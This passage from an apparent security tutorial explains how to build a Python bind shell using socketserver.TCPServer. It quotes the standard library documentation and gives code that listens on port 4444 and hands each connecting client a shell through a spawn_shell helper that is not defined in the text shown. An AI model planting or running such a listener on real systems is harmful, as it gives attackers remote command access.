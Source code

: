 # Socket Server

Only with servers can we take advantage of an additional and slightly more abstract python method of fabricating a bind shell. The socketserver module simplifies the task of writing bind shells. The [TCPServer(server_address, RequestHandlerClass, bind_and_activate=True)](https://docs.python.org/3/library/socketserver.html#socketserver.TCPServer) method will be the focus of this segment.

> This uses the Internet TCP protocol, which provides for continuous streams of data between the client and server. If bind_and_activate is true, the constructor automatically attempts to invoke server_bind() and server_activate(). The other parameters are passed to the BaseServer base class.

We manipulate the communication to and from the target with the handle method override.

> This function must do all the work required to service a request. The default implementation does nothing. Several instance attributes are available to it; the request is available as self.request; the client address as self.client_address; and the server instance as self.server, in case it needs access to per-server information.
>
The type of self.request is different for datagram or stream services. For stream services, self.request is a socket object; for datagram services, self.request is a pair of string and socket. ― [handle()](https://docs.python.org/3/library/socketserver.html#socketserver.BaseRequestHandler.handle)


```python
from subprocess import Popen, PIPE, STDOUT
import socketserver

HOST, PORT = '', 4444

def bind_shell():
    with socketserver.TCPServer((HOST, PORT), bindHandler) as bshell:
        ip, port = bshell.server_address
        print(f"Binding to: {ip}:{port}")
        bshell.serve_forever()

class bindHandler(socketserver.BaseRequestHandler):
    """
    Instantiated once per connection to bshell and must override 
    the handle() method to implement communication to the client.
    """

    def handle(self):
        ip, port = self.client_address
        print(f"{ip}:{port}> joined ...")
        
        spawn_shell(self.request, ip, port, True)
        
if __name__ == "__main__":
    try:
        bind_shell()
    except KeyboardInterrupt:
        print("ctrl+c")
```
